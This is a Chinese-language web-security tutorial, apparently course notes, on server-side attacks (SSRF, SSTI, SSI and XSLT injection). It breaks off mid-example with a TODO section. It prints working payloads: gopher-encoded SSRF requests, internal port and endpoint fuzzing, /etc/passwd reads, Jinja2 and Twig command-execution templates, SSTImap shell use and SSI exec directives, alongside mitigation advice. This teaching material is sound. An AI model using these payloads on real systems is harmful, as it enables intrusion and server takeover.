# 一. 简介

服务器端攻击针对的是服务器提供的应用程序或服务，而客户端攻击则发生在客户端机器上，而非服务器本身。理解并识别这些区别对于渗透测试和漏洞赏金计划至关重要。

例如，跨站脚本攻击 (XSS) 等漏洞针对的是 Web 浏览器，也就是客户端。另一方面，服务器端攻击则针对 Web 服务器。在本模块中，我们将讨论四类服务器端漏洞：

* 服务器端请求伪造 (SSRF)
* 服务器端模板注入（SSTI）
* 服务器端包含（SSI）注入
* 可扩展样式表语言转换 (XSLT) 服务器端注入

## 服务器端请求伪造 (SSRF)

[服务器端请求伪造 (SSRF) ](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery "owasp")是一种漏洞，攻击者可以利用它操纵 Web 应用程序，使其向服务器发送未经授权的请求。当应用程序根据用户输入向其他服务器发出 HTTP 请求时，通常会出现此漏洞。成功利用 SSRF 漏洞可使攻击者访问内部系统、绕过防火墙并获取敏感信息。

## 服务器端模板注入（SSTI）

Web 应用程序可以利用模板引擎和服务器端模板动态生成响应，例如 HTML 内容。这种生成通常基于用户输入，使 Web 应用程序能够动态响应用户输入。当攻击者能够注入模板代码时，就会出现[服务器端模板注入（SSTI）](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection) 漏洞。SSTI 可能导致各种安全风险，包括数据泄露，甚至通过远程代码执行实现服务器完全被攻破。

## 服务器端包含（SSI）注入

与服务器端模板类似，服务器端包含 (SSI) 可用于动态生成 HTML 响应。SSI 指令指示 Web 服务器动态包含额外内容。这些指令嵌入在 HTML 文件中。例如，SSI 可用于包含所有 HTML 页面中都存在的内容，例如页眉或页脚。当攻击者能够将命令注入 SSI 指令时，就会发生[服务器端包含 (SSI) 注入 ](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection)。SSI 注入可能导致数据泄露，甚至远程代码执行。

## XSLT 服务器端注入

XSLT（可扩展样式表语言转换）服务器端注入漏洞是指攻击者能够操纵服务器端执行的 XSLT 转换时产生的漏洞。XSLT 是一种用于将 XML 文档转换为其他格式（例如 HTML）的语言，常用于 Web 应用程序中动态生成内容。在 XSLT 服务器端注入漏洞中，攻击者利用 XSLT 转换处理方式中的缺陷，在服务器上注入并执行任意代码。

# 二. SSRF

## 1. 简介

[SSRF ](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/)漏洞是 OWASP 十大安全漏洞之一。当 Web 应用程序根据用户提供的数据（例如 URL）从远程位置获取额外资源时，就会发生此类漏洞。

假设一个 Web 服务器根据用户输入获取远程资源。在这种情况下，攻击者可能能够诱使服务器向攻击者提供的任意 URL 发出请求，也就是说，该 Web 服务器容易受到 SSRF 攻击。虽然这乍听起来似乎并不严重，但根据 Web 应用程序的配置，SSRF 漏洞可能会造成毁灭性的后果，我们将在后续章节中看到这一点。

此外，如果 Web 应用程序依赖于用户提供的 URL 方案或协议，攻击者可能通过篡改 URL 方案来导致更严重的恶意行为。例如，以下 URL 方案常用于利用 SSRF 漏洞：

* http:// 和 https:// ：这些 URL 方案通过 HTTP/S 请求获取内容。攻击者可能利用 SSRF 漏洞绕过 Web 应用防火墙 (WAF)、访问受限端点或访问内部网络中的端点。
* file:// ：此 URL 方案从本地文件系统读取文件。攻击者可能利用此方案利用 SSRF 漏洞读取 Web 服务器上的本地文件（LFI）。
* gopher:// ：此协议可以向指定地址发送任意字节。攻击者可能利用此协议利用 SSRF 漏洞发送带有任意有效载荷的 HTTP POST 请求，或与其他服务（例如 SMTP 服务器或数据库）通信。

## 2.识别SSRF漏洞

在讨论了 SSRF 漏洞的基础知识之后，让我们直接来看一个示例 Web 应用程序。

查看该网页应用程序，首先映入眼帘的是一些通用文本以及预约功能：



检查完日期是否可用后，我们可以在 Burp 中看到以下请求：



正如我们所看到的，请求中包含我们选择的日期和参数 dateserver 中的 URL，这表明 Web 服务器会从单独的系统中检索可用性信息，如通过此 POST 参数传递的 URL 所指定。

为了确认是否存在 SSRF 漏洞，我们提供一个指向我们系统的 Web 应用程序 URL：



在 netcat 监听器中，我们可以接收到连接，从而确认 SSRF 攻击：

```bash
$ nc -lnvp 8000

listening on [any] 8000 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 38782
GET /ssrf HTTP/1.1
Host: 172.17.0.1:8000
Accept: */*
```

为了确定 HTTP 响应是否反映了 SSRF 响应，让我们通过提供 URL ` http://127.0.0.1/index.php` 将 Web 应用程序指向自身：



由于响应包含 Web 应用程序的 HTML 代码，因此 SSRF 漏洞不是盲目的，也就是说，响应会显示给我们。

## 3 利用SSRF

在讨论了如何识别 SSRF 漏洞并之后，让我们进一步探索利用 SSRF 漏洞来增加其影响的技术。

### 3.1 枚举 Web 端口

我们可以利用 SSRF 漏洞对系统进行端口扫描并枚举正在运行的服务。为此，我们需要能够从 SSRF 有效载荷的响应中推断端口是否开放。如果我们提供一个假定为关闭的端口（例如 81 ），则响应将包含错误消息：



这使我们能够利用 SSRF 漏洞对 Web 服务器进行内部端口扫描。我们可以使用像 `ffuf`这样的模糊测试工具来实现这一点。首先，让我们创建一个包含要扫描端口的字典。在本例中，我们将使用前 10,000 个端口：

```bash
$ seq 1 10000 > ports.txt
```

之后，我们可以对所有开放端口进行模糊测试，过滤掉包含我们之前识别出的错误消息的响应。

```bash
$ ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"

<SNIP>

[Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 0ms]
    * FUZZ: 3306
[Status: 200, Size: 8285, Words: 2151, Lines: 158, Duration: 338ms]
    * FUZZ: 80

```

### 3.2 访问受限端点

正如我们所见，Web 应用程序从 URL `dateserver.htb `获取可用性信息。但是，当我们直接访问它时，却无法访问：



然而，我们可以通过 SSRF 漏洞访问并枚举该域名。例如，我们可以使用 ffuf 进行目录暴力破解攻击，枚举其他端点。为此，我们首先需要确定访问不存在的页面时 Web 服务器的响应：



正如我们所见，Web 服务器返回了默认的 Apache 404 响应。为了过滤掉所有 HTTP 403 响应，我们将根据字符串 Server at dateserver.htb Port 80 来过滤结果，该字符串包含在默认的 Apache 错误页面中。由于 Web 应用程序运行的是 PHP，我们将指定 .php 扩展名：

```bash
$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"

<SNIP>

[Status: 200, Size: 361, Words: 55, Lines: 16, Duration: 3872ms]
    * FUZZ: admin
[Status: 200, Size: 11, Words: 1, Lines: 1, Duration: 6ms]
    * FUZZ: availability
```

我们已经成功识别出一个额外的内部端点，现在可以通过在 POST 参数中的dateserver指定 URL `http://dateserver.htb/admin.php` 来利用 SSRF 漏洞访问该端点，这可能使我们能够访问敏感的管理信息。

### 3.3 本地文件包含 (LFI)

我们可以修改 URL 的协议类型，让程序出现意料之外的异常行为。因为提交给 Web 应用的 URL 里，本身就包含协议这一部分，所以我们可以尝试用 file:// 协议，去读取服务器本地的系统文件。通过提供 URL `file:///etc/passwd` 来实现这一点。



我们可以利用此漏洞读取文件系统中的任意文件，包括 Web 应用程序的源代码。有关利用本地文件包含 (LFI) 漏洞的更多详细信息，请参阅文件包含模块。

### 3.4 利用 gopher 协议发送原始TCP数据

正如我们之前所见，我们可以使用 SSRF 来访问受限的内部端点。但是，就目前这个案例，我们只能发送 `GET `请求，因为无法使用 `http:// URL`方案发送 `POST `请求。例如，假设我们考虑之前 Web 应用程序的另一个版本。假设我们像之前一样找到了内部端点 `/admin.php `，但是这次的响应如下所示：



我们可以看到，管理员接口受到登录提示的保护。从 HTML 表单中，我们可以推断出需要向 ` /admin.php` 发送一个 POST 请求，并在请求体中以 `adminpw`参数的形式传入密码。然而，我们无法使用 `http:// URL 协议`发送此 `POST `请求。

我们可以使用 [Gopher](https://datatracker.ietf.org/doc/html/rfc1436) URL 方案向 TCP 套接字发送任意字节。该协议允许我们通过自行构建 HTTP 请求来创建 POST 请求。

假设我们要尝试一些常见的弱密码，例如 admin ，我们可以发送以下 POST 请求：

```http
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```

我们需要把所有特殊字符进行 URL 编码，这样才能把要发送的数据放进 Gopher URL 里。尤其是空格（%20）和换行（%0D%0A）必须编码。然后，把编码后的数据拼接到 Gopher URL 中，在前面加上协议（gopher://）、目标主机、端口，以及一个下划线 _（表示后面是要发送的原始数据），最终就可以构造出一个完整的 Gopher URL。：

```url
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```

当 Web 应用程序处理这个 URL 时，我们构造的字节数据会被发送到目标服务器。由于我们精心构造了符合规范的 POST 请求格式，内网 Web 服务器会正常接收这条 POST 请求并做出相应响应。

但是，因为我们是把这个 URL 放在 HTTP 的 POST 参数 dateserver 里发送的，而这个参数本身会经过一次 URL 编码，所以我们必须对整个 URL 再做一次 URL 编码，才能保证服务器接收后格式正确。否则就会出现 “URL 格式错误（Malformed URL）”。
对整条 gopher URL 再次进行 URL 编码之后，我们最终就可以发送如下请求：

```http
POST /index.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```

正如我们所见，内部管理端点接受我们提供的密码，我们可以访问管理控制面板：



我们可以使用 gopher 协议与许多内部服务（而不仅仅是 HTTP 服务器）进行交互。假设我们通过 SSRF 漏洞发现本地系统的 TCP 端口 25 处于开放状态。这是 SMTP 服务器的标准端口。我们也可以使用 Gopher 与这个内部 SMTP 服务器进行交互。然而，构建语法和语义都正确的 Gopher URL 可能非常耗时耗力。因此，我们将使用[ Gopherus 工具](https://github.com/tarunkant/Gopherus)来为我们生成 Gopher URL。以下服务受支持：

* MySQL
* PostgreSQL
* FastCGI
* Redis
* SMTP
* Zabbix
* pymemcache
* rbmemcache
* phpmemcache
* dmpmemcache

要运行该工具，需要安装有效的 Python 2。安装完成后，即可通过执行从 GitHub 仓库下载的 Python 脚本来运行该工具：

```bash
$ python2.7 gopherus.py

  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

usage: gopherus.py [-h] [--exploit EXPLOIT]

optional arguments:
  -h, --help         show this help message and exit
  --exploit EXPLOIT  mysql, postgresql, fastcgi, redis, smtp, zabbix,
                     pymemcache, rbmemcache, phpmemcache, dmpmemcache
```

让我们通过提供相应的参数来生成一个有效的 SMTP URL。该工具会要求我们输入要发送的电子邮件的详细信息。之后，我们会得到一个有效的 Gopher URL，我们可以将其用于 SSRF 攻击：

```bash
$ python2.7 gopherus.py --exploit smtp

  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$


Give Details to send mail: 

Mail from :  attacker@academy.htb
Mail To :  victim@academy.htb
Subject :  HelloWorld
Message :  Hello from SSRF!

Your gopher link is ready to send Mail: 

gopher://127.0.0.1:25/_MAIL%20FROM:attacker%40academy.htb%0ARCPT%20To:victim%40academy.htb%0ADATA%0AFrom:attacker%40academy.htb%0ASubject:HelloWorld%0AMessage:Hello%20from%20SSRF%21%0A.

-----------Made-by-SpyD3r-----------
```

## 4.盲 SSRF

在许多实际的 SSRF 漏洞中，响应并不会直接显示给我们。这些情况被称为 blind SSRF 漏洞，因为我们无法看到响应。因此，前面章节讨论的所有利用途径都无法使用，因为它们依赖于我们检查响应的能力。所以，由于利用途径受到严格限制，盲 SSRF 漏洞的影响通常要小得多。

### 4.1识别盲 SSRF

示例 Web 应用程序的行为与上一节相同。我们可以像之前一样，通过向我们控制的系统提供 URL 并设置 netcat 监听器来确认 SSRF 漏洞：

```bash
$ nc -lnvp 8000

listening on [any] 8000 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 32928
GET /index.php HTTP/1.1
Host: 172.17.0.1:8000
Accept: */*
```

然而，如果我们尝试将 Web 应用程序指向自身，我们会发现响应中并没有包含强制请求的 HTML 响应。相反，它只是简单地告知我们日期不可用。因此，这是一个盲 SSRF 漏洞：

### 4.2 利用盲 SSRF

与非盲 SSRF 漏洞相比，利用盲 SSRF 漏洞通常受到很大限制。然而，根据 Web 应用程序的行为，如果开放端口和关闭端口的响应不同，我们或许仍然可以对系统进行（受限的）本地端口扫描。在当前项目下，Web 应用程序对关闭的端口会响应 Something went wrong! 。



但是，如果端口已打开并返回有效的 HTTP 响应，我们会收到不同的错误消息：



根据 Web 应用程序捕获意外错误的方式，我们可能无法识别那些未返回有效 HTTP 响应的正在运行的服务。例如，我们无法使用以下方法识别正在运行的 MySQL 服务：



此外，虽然我们无法像以前那样读取本地文件，但我们仍然可以使用相同的技术来识别文件系统中已存在的文件。这是因为对于已存在和不存在的文件，错误消息是不同的，就像对于已打开和已关闭的端口，错误消息也不同一样：



对于无效文件，错误消息有所不同：

虽然我们不能像前几节那样直接利用盲注 SSRF 漏洞窃取数据，但我们可以利用已讨论的技术枚举本地网络中的开放端口或文件系统中的现有文件。这可能会揭示底层系统架构的信息，从而有助于准备后续攻击。请记住，即使 Web 应用程序对开放端口和关闭端口都返回相同的错误消息，我们仍然可以与内部网络进行交互，尽管是盲注。因此，我们可以通过猜测常见的有效载荷来利用内部 Web 应用程序。

## 5. 防止 SSRF 攻击

针对 SSRF 漏洞的缓解和应对措施可以在 Web 应用层或网络层实施。如果 Web 应用根据用户输入从远程主机获取数据，则采取适当的安全措施来防止 SSRF 攻击至关重要。

从远程源获取的数据应与白名单进行比对，以防止攻击者诱使服务器向任意源发出请求。白名单可以防止攻击者向内部系统发出未经授权的请求。此外，请求中使用的 URL 方案和协议也需要加以限制，以防止攻击者使用任意协议。这些协议应该硬编码或与白名单进行比对。与任何用户输入一样，输入清理有助于防止可能导致 SSRF 漏洞的意外行为。

在网络层，适当的防火墙规则可以阻止向非预期远程系统发出请求。如果部署得当，严格的防火墙配置可以通过拦截所有发往潜在目标系统的请求来缓解 Web 应用程序中的 SSRF 漏洞。此外，网络分段可以防止攻击者利用 SSRF 漏洞访问内部系统。

有关 SSRF 缓解措施的更多详细信息，请查看 [OWASP SSRF 预防速查表 ](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)。

# 三. SSTI

## 1. 前置知识

### 模板引擎(Template Engines)

一种将预定义模板与动态生成的数据相结合的软件，常用于 Web 应用程序生成动态响应。模板引擎的一个常见应用场景是网站，其所有页面都使用共享的页眉和页脚。 模板可以动态添加内容，但保持页眉和页脚不变。这避免了在不同位置出现重复的页眉和页脚，从而降低了复杂性，提高了代码的可维护性。[Jinja ](https://jinja.palletsprojects.com/en/3.1.x/)和 [Twig](https://twig.symfony.com/) 就是常见的模板引擎。

模板引擎通常需要两个输入：一个模板和一组要插入到模板中的值。模板通常可以以字符串或文件的形式提供，其中包含预定义的位置，模板引擎会将动态生成的值插入到这些位置。值以键值对的形式提供，模板引擎可以将提供的值放置在模板中标记为相应键的位置。根据输入的模板和值生成字符串的过程称为 rendering 。

模板语法取决于所使用的具体模板引擎。为了便于演示，本节将始终使用 `Jinja 模板引擎`的语法。请看以下模板字符串：

```jinjia2
Hello {{ name }}!
```

它包含一个名为 `name` 的变量，该变量在渲染过程中会被动态替换。渲染模板时，必须向模板引擎提供变量 `name` 的值。例如，如果我们向渲染函数提供变量 `name="vautia"` ，模板引擎将生成以下字符串：

```jinjia2
Hello vautia!
```

我们可以看到，模板引擎只是简单地将模板中的变量替换为提供给渲染函数的动态值。

虽然以上只是一个简单的例子，但许多现代模板引擎支持更复杂的操作，例如条件语句和循环语句，这些操作通常由编程语言提供。例如，考虑以下模板字符串：

```jinjia2

Hello {{ name }}!

```

模板包含一个 `for-loop` ，用于遍历变量 names 中的所有元素。因此，我们需要向渲染函数提供一个` names `变量中的对象，以便它可以进行迭代。例如，如果我们向函数传递一个列表，例如` names=["vautia", "21y4d", "Pedant"] `，模板引擎将生成以下字符串：

```jinjia2
Hello vautia!
Hello 21y4d!
Hello Pedant!
```

## 2.简介

顾名思义，服务器端模板注入 (SSTI) 是指攻击者可以将模板代码注入到服务器稍后渲染的模板中。如果攻击者注入恶意代码，服务器可能会在渲染过程中执行该代码，从而使攻击者完全控制服务器。

正如我们在上一节中看到的，模板渲染本质上会处理渲染过程中提供给模板引擎的动态值。通常，这些动态值由用户提供。然而，如果用户输入以值的形式传递给渲染函数，模板引擎可以安全地处理这些值。这是因为模板引擎会将这些值插入到模板的相应位置，而不会执行值中的任何代码。另一方面，**当攻击者可以控制模板参数时，就会发生 SSTI 攻击**，因为模板引擎会执行模板中提供的代码。

如果模板引擎实现得当，用户输入始终会以**变量值的形式**传入渲染函数，而不会直接写入**模板字符串本身**。然而，如果在调用模板渲染函数之前就将用户输入插入到模板中，就可能导致*服务器端模板注入（SSTI）* 漏洞。
另一种场景是：Web 应用程序对同一个模板多次调用渲染函数。如果用户输入被插入到第一次渲染的输出结果中，那么在第二次渲染时，**这段内容就会被视为模板字符串的一部分**，从而可能造成 SSTI。
最后，若 Web 应用允许用户直接**修改或提交现成的模板**，这显然会直接导致服务器端模板注入漏洞。

## 3. 识别SSTI

在利用 SSTI 漏洞之前，必须先成功确认该漏洞确实存在。此外，我们还需要确定目标 Web 应用程序使用的模板引擎，因为利用过程高度依赖于具体的模板引擎。这是因为每个模板引擎的语法略有不同，并且支持可用于漏洞利用的不同功能。

### 1. 识别漏洞

识别 SSTI 漏洞的过程与识别其他注入漏洞（例如 SQL 注入）的过程类似。最有效的方法是在模板引擎中注入具有语义含义的特殊字符，并观察 Web 应用程序的行为。因此，以下测试字符串通常用于在易受 SSTI 攻击的 Web 应用程序中触发错误消息，因为它包含在常用模板引擎中具有特定语义用途的所有特殊字符：

```txt
${{<%[%'"}}%\.
```

由于上述测试字符串几乎肯定会违反模板语法，因此如果 Web 应用程序存在 SSTI 漏洞，则应该会导致错误。这种行为类似于向存在 SQL 注入漏洞的 Web 应用程序中注入单引号 ( ' ) 会破坏 SQL 查询的语法，从而导致 SQL 错误。

举个实际例子，我们来看一下我们的示例 Web 应用程序。我们可以输入一个名称，该名称随后会显示在以下页面上：





为了测试 SSTI 漏洞，我们可以注入上面提到的测试字符串。这将导致 Web 应用程序返回以下响应：



正如我们所见，该 Web 应用程序抛出了一个错误。虽然这并不能证实该 Web 应用程序存在 SSTI 漏洞，但它应该增加我们对该参数可能存在漏洞的怀疑。

### 2. 识别模板引擎

要成功利用 SSTI 漏洞，我们首先需要确定 Web 应用程序使用的模板引擎。我们可以利用不同模板引擎行为上的细微差别来实现这一点。例如，请参考以下常用模板引擎概述，其中包含了不同模板引擎之间的细微差异：

我们将首先注入有效载荷` ${7*7} `，然后根据注入结果从左到右依次执行图中的步骤。假设注入成功，有效载荷得以执行，则我们沿着绿色箭头操作；否则，我们沿着红色箭头操作，直到到达最终的模板引擎。

将有效载荷` ${7*7}` 注入到我们的示例 Web 应用程序中，会导致以下行为：



由于注入的有效载荷没有执行，我们沿着红色箭头的方向注入有效载荷` {{7*7}}` ：

这次，有效载荷由模板引擎执行。因此，我们跟随绿色箭头注入有效载荷 `{{7*'7'}} `。结果将使我们能够推断出 Web 应用程序使用的模板引擎。在 Jinja 中，结果为 `7777777 `，而在 Twig 中，结果为 49 。

## 4. 利用 SSTI

既然我们已经了解了如何识别易受 SSTI 攻击的 Web 应用程序所使用的模板引擎，接下来我们将着手利用该漏洞。
本模块探讨了如何利用 Jinja 和 Twig 模板引擎中的 SSTI 漏洞。正如我们所见，每个模板引擎的语法略有不同。然而，SSTI 漏洞利用的基本思路是相同的。因此，攻击者如果对某个模板引擎不熟悉，那么利用该引擎中的 SSTI 漏洞通常只需熟悉该引擎的语法和支持的功能即可。攻击者可以通过阅读模板引擎的文档来实现这一点。此外，还有一些 SSTI 速查表，其中包含常用模板引擎的有效载荷，例如[ PayloadsAllTheThings SSTI CheatSheet ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)。

### 4.1 Jinja2

在本节中，我们假设已经成功识别出该 Web 应用程序使用的是 Jinja 模板引擎。我们将只关注 SSTI 的利用，因此假设 SSTI 的确认和模板引擎的识别已经在之前的步骤中完成。

`Jinja` 是一个模板引擎，常用于 Flask 或` Django` 等 Python Web 框架中。本节将重点介绍 `Flask Web `应用程序。因此，其他 Web 框架中的有效负载可能略有不同。

在我们的有效载荷中，我们可以自由使用 Python 应用程序已经直接或间接导入的任何库。此外，我们还可以通过 `import `语句导入其他库。

#### 4.1.1 信息披露

我们可以利用 SSTI 漏洞获取 Web 应用程序的内部信息，包括配置详情和源代码。例如，我们可以使用以下 SSTI 有效载荷获取 Web 应用程序的配置：

```jinja2
{{ config.items() }}
```



由于此有效载荷会导出整个 Web 应用程序配置，包括所有使用的密钥，我们可以利用获取的信息进行进一步的攻击。我们还可以执行 Python 代码来获取有关 Web 应用程序源代码的信息。我们可以使用以下 SSTI 有效载荷来导出所有可用的内置函数：

```jinja
{{ self.__init__.__globals__.__builtins__ }}
```



#### 4.1.2 本地文件包含 (LFI)

我们可以使用 Python 的内置函数 open 来包含本地文件。但是，我们不能直接调用该函数；我们需要从之前导出的`__builtins__`字典中调用它。这样，要包含文件 `/etc/passwd `就需要生成以下有效载荷：

```jinja
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```



#### 4.1.3 远程代码执行 (RCE)

要在 Python 中实现远程代码执行，我们可以使用 `os 库`提供的函数，例如 `system `或 `popen `。但是，如果 Web 应用程序尚未导入此库，则必须先调用内置函数 `import `来导入它。这将产生以下 SSTI 有效载荷：

```jinja
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```



### 4.2 Twig

本节将探讨 SSTI 利用的另一个示例。上一节讨论了 Jinja 模板引擎中的 SSTI 利用。本节将讨论 Twig 模板引擎中的 SSTI 利用。与上一节一样，我们将只关注 SSTI 利用，并假设 SSTI 确认和模板引擎识别已在前一步骤中完成。Twig 是 PHP 编程语言的模板引擎。

#### 4.2.1 信息披露

在 Twig 中，我们可以使用 _self 关键字来获取有关当前模板的一些信息：

```twig
{{ _self }}
```



但是，正如我们所看到的，与 Jinja 相比，信息量是有限的。

#### 4.2.2 本地文件包含 (LFI)

读取本地文件（不使用与远程代码执行相同的方法）并非 Twig 直接提供的内部函数所能实现。然而，PHP Web 框架 Symfony 定义了额外的 Twig 过滤器。其中一个过滤器是 file_excerpt ，可用于读取本地文件：

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}

```


#### 4.2.3 远程代码执行 (RCE)

要实现远程代码执行，我们可以使用 PHP 内置函数，例如` system` 。我们可以通过使用 Twig 的` filter `函数向该函数传递参数，从而生成以下任何一种 SSTI 有效载荷：

```twig
{{ ['id'] | filter('system') }}
```



## 5.自动化工具

[tplmap ](https://github.com/epinna/tplmap)是目前最常用的 SSTI 漏洞识别和利用工具。然而，tplmap 已停止维护，并且运行在已弃用的 Python 2 版本上。因此，我们将使用更现代的 [SSTImap](https://github.com/vladko312/SSTImap) 来辅助 SSTI 漏洞利用过程。克隆代码库并安装所需依赖项后即可运行：

```bash
$ git clone https://github.com/vladko312/SSTImap

$ cd SSTImap

$ pip3 install -r requirements.txt

$ python3 sstimap.py 
```

为了自动识别任何 SSTI 漏洞以及 Web 应用程序使用的模板引擎，我们需要向 SSTImap 提供目标 URL：

```bash
$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test

```

我们可以使用 `-D` 标志将远程文件下载到本地计算机：

```bash
$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'

<SNIP>

[+] File downloaded correctly
```

此外，我们还可以使用 `-S` 标志执行系统命令 或者通过`--os-shell `获得交互式shell

## 6. 防止SSTI漏洞

为了防止 SSTI 漏洞，我们必须确保用户输入永远不会作为模板参数传递给模板引擎的渲染函数。这可以通过仔细检查不同的代码路径来实现，并确保在调用渲染函数之前，用户输入永远不会被添加到模板中。

假设一个 Web 应用程序旨在允许用户修改现有模板或出于业务目的上传新模板。在这种情况下，实施适当的加固措施以防止 Web 服务器被劫持至关重要。此过程可以包括通过移除可能被用于从执行环境中远程执行代码的潜在危险函数来加固模板引擎。移除危险函数可以防止攻击者在其有效载荷中使用这些函数。然而，这种方法容易被绕过。更好的方法是将运行模板引擎的执行环境与 Web 服务器完全隔离，例如，通过设置一个独立的执行环境，如 Docker 容器。

# 四. SSI 注入

是一种轻量化的 Web 服务端技术，它的核心用途就是：在纯静态的 HTML 页面里，插入少量动态内容，不用依赖 PHP、ASP 这类完整脚本语言，就能让静态页面显示可变数据。

例如在 HTML 里写特殊注释标签: `<!--#echo var="DATE_LOCAL" --> `服务器看到这种标签，就会先执行它，再把结果替换进去，最后发给浏览器。就像 HTML 里嵌了一点点 “服务器脚本”。

主流的 Web 服务器，比如 Apache、IIS 都默认支持这项功能。为了方便区分 “普通静态页面” 和 “会执行 SSI 指令的页面”，服务器通常会约定一类专用后缀：.shtml、.shtm、.stm。只有带这些后缀的文件，服务器才会去检查并执行里面的 SSI 代码。

但要注意：文件后缀只是默认规则，不是绝对标准。服务器完全可以通过修改配置，让 .html、.htm 甚至其他任意后缀的文件，也支持解析 SSI 指令。

SSI 注入是指**攻击者将恶意的 SSI 指令注入到某个文件中，而该文件后续会被 Web 服务器加载并解析，从而导致注入的恶意 SSI 指令被服务器执行。**

**这类漏洞可能出现在多种场景下。例如：Web 应用存在不安全的文件上传漏洞，允许攻击者将包含恶意 SSI 指令的文件上传到网站根目录；除此之外，如果应用会把用户输入的内容直接写入网站根目录下的文件，攻击者同样可以借此注入 SSI 指令。**

## 1. SSI 指令

SSI 利用 指令 将动态生成的内容添加到静态 HTML 页面中。SSI 指令的语法如下：

```ssi
<!--#name param1="value1" param2="value" -->
```

* name ：指令的名称
* parameter name ：一个或多个参数
* value ：一个或多个参数值

例如，以下是一些常见的 SSI 指令。

`<!--#printenv -->`
此指令用于打印环境变量。它不接受任何变量。

`<!--#config errmsg="Error!" -->  `
此指令通过指定相应的参数来更改 SSI 配置。例如，可以使用 errmsg 参数来更改错误消息

`<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->  `
此指令会打印 var 参数中指定的任何变量的值。可以通过指定多个 var 参数来打印多个变量。例如，支持以下变量

* DOCUMENT_NAME ：当前文件名
* DOCUMENT_URI ：当前文件的 URI
* LAST_MODIFIED ：当前文件最后修改的时间戳
* DATE_LOCAL ：本地服务器时间

`<!--#exec cmd="whoami" -->`
该指令执行 cmd 参数中给出的命令

`<!--#include virtual="index.html" --> 
`此指令包含 virtual 参数中指定的文件。它仅允许包含网站根目录中的文件。

## 2. 识别

TODO

## 3. 利用SSI 注入

让我们来看一下我们的示例 Web 应用程序。首先映入眼帘的是一个简单的表单，要求我们输入姓名：

如果我们输入姓名，就会跳转到 /page.shtml 页面，该页面会显示一些常规信息：



我们可以根据文件扩展名推测该页面支持 SSI。如果我们的用户名未经事先清理就插入到页面中，则可能存在 SSI 注入漏洞。让我们通过提供用户名 <!--#printenv --> 来验证这一点。这将导致以下页面：

正如我们所见，指令已执行，环境变量也已打印。因此，我们已成功确认存在 SSI 注入漏洞。让我们通过提供以下用户名来确认是否可以使用 `exec 指令`执行任意命令： <!--#exec cmd="id" --> :



服务器成功执行了我们注入的命令，使我们能够完全控制该网络服务器。

## 4. 预防 SSI 注入

正如我们所见，SSI 实现不当会导致 Web 安全漏洞。SSI 注入可能造成灾难性后果，包括远程代码执行，进而导致 Web 服务器被完全控制。为了防止 SSI 注入，使用 SSI 的 Web 应用程序必须实施适当的安全措施。

与任何注入漏洞一样，开发人员必须仔细验证和清理用户输入，以防止 SSI 注入。当用户输入用于 SSI 指令或写入可能包含 SSI 指令的文件时，这一点尤为重要（具体取决于 Web 服务器配置）。此外，必须配置 Web 服务器，将 SSI 的使用限制在特定文件扩展名甚至特定目录中。另外，还可以限制特定 SSI 指令的功能，以减轻 SSI 注入漏洞的影响。例如，如果不需要使用 exec 指令，则可以将其禁用。


# 五. XSLT 注入

[可扩展样式表语言转换（XSLT）](https://www.w3.org/TR/xslt-30/) 是一种能够转换 XML 文档的语言。例如，它可以从 XML 文档中选择特定节点并更改 XML 结构。因为 XSLT 是服务端解析的「模板类语言」，一旦用户可控 XSLT 内容，就会形成 XSLT 注入，可以实现读文件、甚至代码执行，和 SSTI、SSI 属于同一类漏洞。

## 1.前置知识

由于 XSLT 处理的是基于 XML 的数据，我们将使用以下示例 XML 文档来探讨 XSLT 的工作原理：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<fruits>
